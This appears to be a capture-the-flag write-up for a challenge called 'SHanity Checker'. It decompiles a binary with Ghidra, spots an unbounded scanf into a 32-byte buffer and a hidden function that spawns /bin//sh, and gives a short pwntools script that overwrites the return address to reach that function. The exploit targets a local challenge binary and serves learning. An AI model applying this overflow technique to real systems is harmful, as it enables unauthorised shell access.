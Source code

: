 # SHanity Checker

## File Analysis

![image](https://github.com/user-attachments/assets/4ae144de-598e-4de4-b8e0-26f1b59e4e77)

## Step to Solve:
## Step 1:

Use **Ghidra** to decompile the file. 

_**Decompile Code**_

<details>
  
<summary>main</summary>

```C
undefined8 main(void)

{
  undefined local_28 [32];
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  printf("Hello, whats your name?\n>> ");
  __isoc99_scanf(&%s,local_28);
  return 0;
}

```
</details>

<details>
  
<summary>FUN_00401174</summary>

```C
undefined  [16] FUN_00401174(void)

{
  syscall();
  return ZEXT816(0);
}

```

</details>

## Step 2

![image](https://github.com/user-attachments/assets/1c8f3695-9a71-4f14-bbe8-ee55c78c2f40)


One interesting thing in this FUN_00401174 assembly is that, we can notice one weird hex value have been mov to RBX. So I just use **CyberChef** to see what is that value about and just found some cool thing, which is **/bin//sh**.

![image](https://github.com/user-attachments/assets/bb234ee7-9b36-45e9-b4d3-802c2a42b7d8)

## Step 3

So at this point, I pretty sure that is just a simply **Buffer Overflow**, because that when we call that FUN_00401174, it will spawn a shell. And the main function **scanf** not specifying any size to be input to the buffer. Therefore, we can modify the **return address** to the FUN_00401174.

<details>
  <summary>Exploit Script</summary>

```python
from pwn import *

exe = context.binary = ELF('./chal')

p = exe.process()

offset = 0x28
vuln_address = 0x4011ac
payload = b"A" * 0x28 + p64(vuln_address)

p.sendlineafter(b">> ", payload)

p.interactive()
```
  
</details>

> ![image](https://github.com/user-attachments/assets/2820c5ae-51b0-49e3-9680-082bd2a09422)


